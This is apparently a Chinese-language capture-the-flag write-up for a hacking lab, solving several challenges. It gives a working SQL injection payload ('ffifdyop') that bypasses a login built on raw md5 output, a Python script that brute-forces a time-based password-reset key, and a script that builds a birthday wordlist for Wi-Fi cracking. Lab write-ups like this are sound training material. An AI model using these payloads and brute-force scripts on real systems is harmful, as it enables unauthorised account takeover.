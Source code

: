 ```bash
select * from user where userid=".intval($_GET['userid'])." and password='".md5($_GET['pwd'], true) ."'。
```

对传入的userid使用了intval()函数转化为数字，同时将password使用md5()函数进行转化。这就是一个典型的MD5加密后的SQL注入。
其中最主要的就是md5()函数，当第二个参数为true时，会返回16字符的二进制格式。当为false的时候，返回的就是32字符十六进制数。默认的是false模式。具体的差别通过下面这个代码来看。

```bash
md5("123456");			e10adc3949ba59abbe56e057f20f883e
md5("123456",true);		
```
可以看到当参数为true的时候，md5之后的值就会乱码。
那么只要md5(str,true)之后的值是包含了'or'<trash>这样的字符串，那么sql语句就会变为select 8 from users where usrid="XXX" and password=''or'<trash>'。如此就可以绕过了。那么这样的str字符串存在吗？所幸还好存在一个，就是ffifdyop。那么我们最终的payload就是：
  
```bash
http://lab1.xseclab.com/code1_9f44bab1964d2f959cf509763980e156/?userid=1&pwd=ffifdyop
```
或者  
```bash
 http://lab1.xseclab.com/code1_9f44bab1964d2f959cf509763980e156/?userid=1&pwd=129581926211651571912466741651878684928 
```
# 解密关

## 以管理员身份登录系统
sukey 值是为时间戳取整，MD5加密而来的
```bash
#coding=utf-8
import requests
import hashlib
import time
se=requests.session()
header={'Cookie':'PHPSESSID=c55e14d0b2191166af88d0ac03c48113'}
while True:
    sukey=hashlib.new('md5',str(int(time.time())).encode('utf-8')).hexdigest()
    url="http://lab1.xseclab.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey="+sukey+"&username=admin"
    r=se.get(url,headers=header)
    time.sleep(0.5)
    if r.content:
        print(r.content)
        break
    else:
        print('Cracking:'+sukey)
        
 ```
 ## 邂逅对门的妹纸

 先生成字典。
 ```bash
 with open("password.txt","w") as f:
    for year in range(1933,1936):
        for month in range(1,13):
            for day in range(1,32):
                f.write("%d%02d%02d\n"%(year,month,day))
 ```
  用 EWSA 爆破失败，不知啥原因，以后再研究。
 